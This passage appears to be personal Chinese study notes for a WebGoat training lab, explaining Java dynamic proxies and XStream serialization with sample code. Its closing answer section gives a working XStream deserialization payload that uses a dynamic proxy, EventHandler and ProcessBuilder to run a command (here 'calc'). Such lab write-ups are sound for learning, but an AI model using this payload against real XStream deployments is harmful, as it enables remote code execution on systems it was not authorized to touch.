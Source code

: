 ```java
InvocationHandler handler = new InvocationHandler() {  
    @Override  
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
        System.out.println(method);  
        if (method.getName().equals("morning")) {  
            System.out.println("Good morning, student!");  
        }  
        return null;  
    }  
};  
Student student0 = (Student) Proxy.newProxyInstance(  
        Student.class.getClassLoader(), // 传入ClassLoader  
        new Class[] { Student.class }, // 传入要实现的接口  
        handler); // 传入处理调用方法的InvocationHandler  
student0.morning("Bob");

XStream xstream = new XStream();  
xstream.setClassLoader(ContactImpl.class.getClassLoader());  
xstream.alias("contact", ContactImpl.class);  
xstream.ignoreUnknownElements(); // 忽略未知元素  
  
System.out.println(xstream.toXML(student0));
```
输出
![](../../images/Pasted%20image%2020241204113731.png)


大概理解？这里的Student实际上也是Proxy，当Student调用任何函数时，就会触发Main里定义的handler，无论如何都会输出一遍method，并根据method输出morning

动态代理用途：
动态代理允许将接口的实现与其使用分离。这种解耦使得代码更加灵活，可以在不修改客户端代码的情况下更改实现。
通过动态代理，您可以在调用实际方法之前或之后添加额外的逻辑，例如：
- **日志记录**：在方法调用前后记录日志。
- **权限检查**：在执行方法之前检查用户权限。
- **事务管理**：在方法调用前开始事务，在方法调用后提交或回滚事务。
这种增强功能通常在 AOP（面向切面编程）中使用，动态代理是实现 AOP 的一种常见方式。

而这个漏洞实际上是利用了Proxy的反序列化，搞出来一个这样类，赋值给监听的接口，于是后续该接口调用函数时就会触发漏洞
![](../../images/Pasted%20image%2020241204135444.png)

至于网上使用`<sorted-set>`这样的写法是方便写这个触发的接口
让类不用赋值出去，在fromXml的调用链里就进行了比较，直接就能触发

> 
> 搜到的很好的参考 https://blog.csdn.net/Xxy605/article/details/126297121
> 一看id竟然还是认识的
> ![](../../images/Pasted%20image%2020241204105018.png)

#### 1.2.4 答案

总之扯远了，关于本题触发可以写，命令行运行不成功也可以过（
```xml
<contact class='dynamic-proxy'>  
    <interface>org.owasp.webgoat.lessons.vulnerablecomponents.Contact</interface>  
    <handler class='java.beans.EventHandler'>  
        <target class='java.lang.ProcessBuilder'>  
            <command>                
	            <string>calc</string>  
            </command>        
        </target>        
        <action>start</action>  
    </handler>
</contact>  
```
